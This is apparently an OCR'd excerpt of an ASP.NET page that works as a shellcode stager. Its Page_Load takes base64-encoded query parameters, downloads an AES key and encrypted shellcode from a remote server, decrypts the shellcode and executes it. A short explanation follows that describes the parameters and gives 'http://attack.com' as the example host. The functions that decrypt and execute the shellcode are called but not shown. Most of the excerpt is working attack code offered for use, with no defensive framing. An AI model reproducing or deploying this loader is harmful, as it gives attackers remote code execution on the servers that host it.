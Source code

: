 ```html
    }

    // Function to download file from URL
    private byte[] DownloadFile(string url)
    {
        WebClient client = new WebClient();
        return client.DownloadData(url);
    }

    // Base64 decode
    private string Base64Decode(string base64EncodedData)
    {
        var base64EncodedBytes = Convert.FromBase64String(base64EncodedData);
        return Encoding.UTF8.GetString(base64EncodedBytes);
    }

    protected void Page_Load(object sender, EventArgs e)
    {
        string baseUrl = Request.QueryString["url"];
        string keyEndpoint = Request.QueryString["key"];
        string payloadEndpoint = Request.QueryString["payload"];

        if (!string.IsNullOrEmpty(baseUrl) && !string.IsNullOrEmpty(keyEndpoint) && !string.IsNullOrEmpty(payloadEndpoint))
        {
            // Base64 decode parameters
            baseUrl = Base64Decode(baseUrl);
            keyEndpoint = Base64Decode(keyEndpoint);
            payloadEndpoint = Base64Decode(payloadEndpoint);

            // Build full URLs
            string keyUrl = baseUrl + "/" + keyEndpoint;
            string payloadUrl = baseUrl + "/" + payloadEndpoint;

            // Download key and payload
            byte[] aesKey = DownloadFile(keyUrl);
            byte[] encryptedShellcode = DownloadFile(payloadUrl);

            // Decrypt shellcode using AES key
            byte[] decryptedShellcode = AESDecrypt(aesKey, encryptedShellcode);

            // Execute the decrypted shellcode
            ExecuteShellcode(decryptedShellcode);
        }
    }
</script>
```

### **Explanation:**
1. **URL Parameters (Base64-Encoded)**:
   - `url`: The base URL where the key and payload are hosted (e.g., `http://attack.com`).
   - `key`: The key's file path (e.g., `key`).
   - `payload`: The shellcode's file path (e.g., `payload`).
   